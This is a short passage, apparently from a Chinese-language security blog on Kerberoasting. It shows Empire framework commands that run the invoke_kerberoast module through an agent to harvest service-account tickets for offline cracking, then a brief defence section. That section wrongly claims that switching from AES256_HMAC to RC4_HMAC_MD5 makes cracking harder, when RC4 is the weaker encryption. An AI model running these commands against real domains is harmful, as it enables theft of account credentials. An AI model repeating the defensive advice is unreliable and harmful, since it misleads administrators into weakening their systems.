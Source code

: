 #### Empire 框架

```plain
Empire: L7HAM3KV) > usemodule credentials/invoke_kerberoast
(Empire: powershell/credentials/invoke_kerberoast) > set Agent L7HAM3KV
(Empire: powershell/credentials/invoke_kerberoast) > execute
```

[![](assets/1701606719-75e947feccd0ab30be616749073624e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163407-94e3e860-7e11-1.png)  
之后同样进行离线破解即可~

## 防御措施

通过将默认的 AES256\_HMAC 加密方式改为 RC4\_HMAC\_MD5，增加破解难度或者保证服务密码本身为强密码，关键是提高密码的强度
